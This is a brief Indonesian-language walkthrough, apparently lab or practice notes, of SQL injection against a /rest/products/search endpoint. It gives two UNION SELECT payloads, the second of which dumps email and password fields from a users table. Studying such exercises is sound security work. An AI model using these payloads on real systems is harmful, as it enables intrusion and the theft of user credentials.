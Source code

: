1. Untuk mendapatkan user credentials, gunakan endpoint /rest/products/search
   dengan payload
   ```
    ))%20UNION%20SELECT%201,2,3,4,5,6,7,8,9%20FROM%20users--
   ```
   <img width="1543" height="448" alt="image" src="https://github.com/user-attachments/assets/ef9a55d6-a701-4155-b3d0-2a1b20310f20" /> <br />
   dapat dilihat sql command berhasil diinjeksi

2. Dengan menggunakan payload untuk membersihkan datanya
    ```
    M')) UNION SELECT id,email,password,4,5,6,7,8,9 FROM users--
    ```
   Kredensial berhasil didapat
   <img width="1766" height="950" alt="image" src="https://github.com/user-attachments/assets/e7773756-64bf-49a5-8e38-ae7d51065036" />


